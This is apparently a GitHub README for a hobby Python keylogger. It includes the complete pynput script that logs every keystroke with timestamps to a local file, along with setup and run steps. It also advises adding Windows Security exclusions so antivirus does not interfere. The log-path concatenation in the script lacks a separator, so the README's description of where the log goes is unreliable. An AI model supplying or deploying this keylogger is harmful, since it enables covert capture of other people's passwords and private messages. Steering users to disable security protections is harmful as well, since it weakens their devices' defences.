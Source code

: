 # Keylogger

## Overview
A keylogger is a tool designed to monitor and record keystrokes on a computer or mobile device. This project captures and stores keyboard inputs for analysis and monitoring purposes. It can be used for ethical and authorized applications, such as monitoring personal devices or educational purposes. Misuse of this tool is strictly prohibited and can have serious legal consequences.

## Features
- **Keystroke Recording:** Logs all keystrokes entered on the device.
- **Log File Storage:** Stores recorded keystrokes in a log file named `keylogger.txt`.
- **Simple Implementation:** Uses the `pynput` library for handling keyboard events.

## Prerequisites
- **Programming Language:** Python 3.x
- **Libraries:** Ensure the following libraries are installed:
  - `pynput` (for keyboard event handling)
  - `logging` (for creating and managing log files)

To install the required Python libraries, use:
```bash
pip install pynput
```

## Installation
1. Clone the repository or copy the keylogger script to your local machine.
2. Save the script in the desired directory. For example:
   ```
   C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger
   ```

## Usage
1. **Setup Log Directory:**
   - Ensure the `log_dir` variable in the script points to the folder where the keylogger script is saved. For example:
     ```python
     log_dir = r"C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger"
     ```
2. **Run the Script:**
   - Execute the script using Python:
     ```bash
     python keylogger.py
     ```
3. **Access Logs:**
   - After running the script, the keystrokes will be logged in a file named `keylogger.txt` in the specified directory.
4. **Stopping the Keylogger:**
   - Stop the script manually by interrupting the Python process (e.g., using `Ctrl + C` in the terminal).

## Script Code
Here is the provided keylogger script for reference:
```python
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger"
logging.basicConfig(filename=(log_dir + "keylogger.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Windows Security Exclusion Setup

This project involves running Python code on a Windows system. To ensure that the code runs without interference from Windows Security, follow the instructions in the `Windows_Setup.md` file to add exclusions in Windows Security.

### Setup Instructions

1. Follow the detailed setup steps in the `Windows_Setup.md` file to configure Windows Security.
2. Once the exclusions are added, you can run the Python code without security interference.

## Legal Disclaimer
This keylogger is provided for educational and ethical purposes only. You are responsible for ensuring compliance with all applicable laws and regulations when using this tool. Unauthorized use of keyloggers is illegal and may result in severe penalties, including imprisonment.

## License
This project is licensed under the MIT License. See the `LICENSE` file for more details.

## Support
For issues or questions, please contact the project maintainer or open an issue in the repository.

